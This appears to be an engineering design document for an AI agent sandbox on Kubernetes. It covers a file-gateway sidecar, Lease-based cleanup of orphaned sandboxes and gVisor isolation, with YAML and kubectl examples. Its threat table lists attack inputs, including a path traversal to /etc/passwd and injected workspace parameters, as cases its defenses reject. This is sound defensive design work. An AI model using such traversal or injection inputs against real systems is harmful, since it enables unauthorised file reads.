

```yaml
# SandboxWarmPool template — changes only
containers:
  # ... existing agent-runtime, mitmproxy unchanged ...
  - name: file-gateway
    image: nointern/file-gateway:latest
    ports:
    - containerPort: 8081    # localhost only (accessed from agent-runtime)
    env:
    - name: WORKSPACE_ID
      value: ""              # injected on allocation
    - name: SESSION_ID
      value: ""              # injected on allocation
    - name: STORAGE_BACKEND
      value: "s3"            # "s3" | "local"
    - name: S3_BUCKET
      value: "nointern-session-data"
    - name: S3_PREFIX
      value: "v1"
    - name: LOCAL_MOUNT_PATH
      value: "/shared"       # Docker shared volume path
    - name: MAX_FILE_SIZE_MB
      value: "100"
    - name: MAX_SESSION_TOTAL_MB
      value: "500"
serviceAccountName: sandbox-file-gateway   # K8s: IRSA → S3 PutObject permission only
```

File Gateway accesses storage directly without going through MITM proxy. K8s NetworkPolicy applies only to Pods selected with `app: agent-runtime`, so sidecar container is unaffected.

### Defense in depth

Layers that prevent agent from directly manipulating storage:



| Attack scenario | Defense layer | Result |
|-------------|-----------|------|
| direct upload with S3 SDK | L1 (no credential) + L2 (network blocked) | fails |
| access `shared:///session/../../etc/passwd` | L4 (chroot validation) | rejected |
| inject `workspace_id` parameter into File Gateway API | L3 (server-side decision, ignore client parameter) | ignored |
| upload to another workspace path | L3 (fixed env vars) | impossible |
| exhaust tokens with large file cat | L5 (shell tool character limit) | truncate |

Storage path mapping rule (File Gateway server-side):

```
shared:///session/reports/output.csv
  → {S3_PREFIX}/{WORKSPACE_ID}/{SESSION_ID}/reports/output.csv
  → e.g. v1/ws_abc/sess_123/reports/output.csv
```

- Directory structure under session root reflects agent request as-is
- Allowed filename characters: `[a-zA-Z0-9._-/]`, other characters replaced with `_`

### Capacity limits

| Limit | Default | Config |
|------|-------|------|
| max size per file | 100 MB | `MAX_FILE_SIZE_MB` |
| total capacity per session | 500 MB | `MAX_SESSION_TOTAL_MB` |
| max filename length | 255 bytes | hardcoded |

Per-session usage is tracked by File Gateway in memory. Pod restart = session end = delete, so persistence is unnecessary.

## Orphan Sandbox GC (K8s)

If Worker terminates abnormally (OOM, SIGKILL, node failure), `SandboxManager.stop()` is not called and Sandbox CR/Pod remains forever. Clean it automatically with K8s Lease-based Worker liveness detection.

### Orphan scenarios

| Scenario | Cause | Result |
|---------|------|------|
| Worker OOM kill | K8s/OS forcibly terminates process | CR remains, Pod keeps running |
| Node failure | VM/physical server failure | Worker Pod rescheduled, old CR abandoned |
| Worker scale down | HPA/manual scale down, graceful shutdown timeout | CR abandoned |
| `close()` network error | temporary K8s API failure | CR delete fails, removed only from memory |

### K8s Lease-based Worker Liveness

Each Worker sends its liveness signal with K8s Lease object:

```yaml
apiVersion: coordination.k8s.io/v1
kind: Lease
metadata:
  name: nointern-worker-{worker_id}
  namespace: nointern-sandbox
  labels:
    managed-by: nointern
spec:
  holderIdentity: {worker_id}
  leaseDurationSeconds: 120          # 2x renewal interval (60s)
  renewTime: "2026-02-26T02:01:00Z"  # renewed every 60s
```

- Worker updates `renewTime` every 60 seconds
- Another Worker checks Lease: `renewTime + leaseDuration < now` → consider Worker dead
- Set `leaseDuration` to 2x renewal interval (120 seconds) to tolerate transient delay

### Sandbox CR labels

Record owner Worker and session info as labels on Sandbox CR:

```yaml
metadata:
  labels:
    managed-by: nointern
    nointern/worker-id: {worker_uuid}   # owner Worker identity
    nointern/session-id: {session_id}   # audit tracking
```

### GC algorithm



Use cache (`dict[str, bool]`) to avoid duplicate Lease lookups for the same worker-id.

### SandboxManager integration



### Design rationale

| Alternative | Pros | Cons | Conclusion |
|------|------|------|------|
| Age-based global GC | simple | may delete active long-running sandbox | ❌ risky |
| Heartbeat annotation | accurate | periodic K8s API write load per CR | ❌ API load |
| Separate CronJob | independent from Worker | infra complexity, separate RBAC | ❌ excessive |
| **Lease + Self-reconciliation** | **accurate + safe** | **additional Lease management code** | ✅ adopted |

### Config

| Env var | Default | Description |
|---------|-------|------|
| `NI_SANDBOX_K8S_ORPHAN_GC_INTERVAL_SECS` | 300 | GC interval (seconds) |

## Future Considerations

- **Persistent Storage**: mount PVC if file preservation between sessions is needed
- **GPU support**: GPU node pool for agents needing ML inference
- **Multi-region**: per-region Warm Pool when expanding global service
- **Sandbox snapshot**: save/restore running Sandbox state (under review in kubernetes-sigs/agent-sandbox)

## Implementation Plan

### gVisor Sandbox Security Isolation

#### Current state

nointern agent sandbox runs with gVisor (runsc) runtime. gVisor is automatically installed through AL2023 node userData script.

#### Why gVisor is needed

Agent sandbox executes arbitrary code submitted by users. runc containers directly share host Linux kernel, so node escape through kernel vulnerability exploit is theoretically possible.

gVisor (runsc) inserts userspace kernel and removes this attack surface.

#### Defense summary

- **gVisor (runsc)**: blocks kernel attack surface with userspace kernel
- NetworkPolicy: blocks RFC1918 and external egress
- MITM proxy sidecar: domain filtering + audit log
- dedicated Karpenter nodepool + taint isolation
- sandbox ServiceAccount least privilege

#### Implementation method — AL2023 userData

Use EC2NodeClass userData instead of DaemonSet.



#### Advantages of userData approach

- **No race condition** — script runs on node boot, so gVisor is ready before cluster join
- **Simple** — managed by one Terraform resource, no separate privileged DaemonSet/RBAC needed
- **Fails safe** — script failure → node join failure → Karpenter provisions replacement node

#### Main changes

##### EC2NodeClass "sandbox"

- AMI: `bottlerocket@latest` → `al2023@latest`
- Block device: `/dev/xvdb` → `/dev/xvda` (AL2023 root volume)
- `userData`: MIME multipart format
  - `application/node.eks.aws` — register runsc runtime handler in containerd
  - `text/x-shellscript` — download/install runsc + containerd-shim-runsc-v1 binaries

##### RuntimeClass "gvisor"

- Add `scheduling`: nodeSelector + tolerations so it schedules only on sandbox nodes

##### sandbox-template.yaml

- Restore `runtimeClassName: gvisor`

#### Related files

- `infra/terragrunt/_modules/eks-cluster/addons.tf` — EC2NodeClass, RuntimeClass
- `infra/argocd/nointern-sandbox/overlays/production/base/resources/sandbox-template.yaml` — SandboxTemplate

#### Deployment order

1. **Terraform apply** — apply EC2NodeClass (AL2023 + userData) + RuntimeClass (scheduling)
2. **Confirm node replacement** — wait until existing Bottlerocket nodes are replaced by AL2023 (WhenEmpty consolidation 60s)
3. **Verify gVisor works** — confirm runsc activation with test Pod
4. **Push ArgoCD change** — restore `runtimeClassName: gvisor` in sandbox-template.yaml

#### Verification

```bash
# 1. create gVisor test Pod
kubectl run gvisor-test --image=busybox --command -- sleep 3600 \
  --overrides='{"spec":{"runtimeClassName":"gvisor","tolerations":[{"key":"azents.io/sandbox","value":"true","effect":"NoSchedule"}],"nodeSelector":{"karpenter.sh/nodepool":"sandbox"}}}'

# 2. confirm gVisor active
kubectl exec gvisor-test -- dmesg 2>&1 | head -5
# confirm "Starting gVisor..." message

# 3. cleanup
kubectl delete pod gvisor-test

# 4. confirm gVisor on WarmPool Pod
kubectl -n nointern-sandbox get pod <warmpool-pod> -o jsonpath='{.spec.runtimeClassName}'
# confirm "gvisor" output
```

#### References

- [gVisor official docs](https://gvisor.dev/docs/user_guide/containerd/quick_start/)
- [Bottlerocket gVisor issue #811](https://github.com/bottlerocket-os/bottlerocket/issues/811) — no support plan
